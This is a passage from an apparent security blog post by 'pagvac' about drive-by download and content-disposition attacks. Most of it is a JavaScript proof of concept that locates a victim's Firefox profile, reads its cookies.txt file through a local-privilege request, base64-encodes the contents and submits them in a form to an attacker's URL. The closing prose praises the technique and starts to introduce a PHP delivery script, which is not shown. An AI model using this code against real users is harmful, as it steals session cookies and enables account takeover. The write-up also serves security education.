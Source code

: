                             strProfileName=strProfileContent.substring(strProfileContent.indexOf("/")+1, strProfileContent.length);
                            strTmp=strProfileName;
                            //alert(strProfileName);
                            //alert(strProfileName.indexOf("\n"));
                            //strProfileName=strTmp.substring(0, strProfileName.indexOf("\n")-1);
                            strProfileName=strProfileName.substring(0, strProfileName.indexOf("\n")-1);
                            //strProfileName.indexOf("\ ")
                            document.write("StrProfileName: " + strProfileName + "<br>");
                            //document.write(strProfileContent.indexOf("/")+"<br>");
                    }

    } catch (e) {};

    file2steal = strHomeFolder + "Application Data/Mozilla/Firefox/Profiles/" + strProfileName + "/cookies.txt";
    document.write("file2steal: "+ file2steal+"<br><br>");

    // get contents of file2steal
    try
    {
                    reqB.open("GET", file2steal, null);
                    reqB.send(null);

                    if(reqB.responseText)
                    {
                            strFile2StealContent=reqB.responseText;
                            document.write("strFile2StealContent:<br><br>" + reqB.responseText + "<br><br>");
                            strFile2StealContent=encode64(reqB.responseText);
                    }

    } catch (e) {};

    document.forms[0].action=attackersURL;
    //alert(document.forms[0].action);
    document.forms[0].stolenfile.value=strFile2StealContent;
    //alert(document.forms[0].stolenfile.value);

    // confirm box only added for ethical reason. In a real-world scenario an attacker wouldnt even bother asking you
    // for permission before stealing a file from your filesystem!
    if(confirm("pagvac says:\n\Do you really want to submit your \"cookies.txt\" file to "+attackersURL+"\n???"))
            document.forms[0].submit();
    else
            exit;

    document.write("</body></html>");

    The beauty of this attack is that that the bad guy can exploit the trust the victim has on the `victim.foo` domain, since the download dialog is initiated from such domain. This case study was to me another reminder that, what sometimes appears to be a useless vulnerability, can be turned into something more useful by using a bit of imagination.

    Needless to say, if you visit a site controlled by the attacker, the same effect can be accomplished by simply configuring the server to return a `Content-Disposition` header. This is one of the many ways to perform [drive-by download attacks](/blog/hacking-without-0days-drive-by-java/). The following is a PHP script that would allow you to perform a `content-disposition` drive-by download that would run JavaScript with local privilege - assuming that the victim is tricked to open the `bad.html` file:
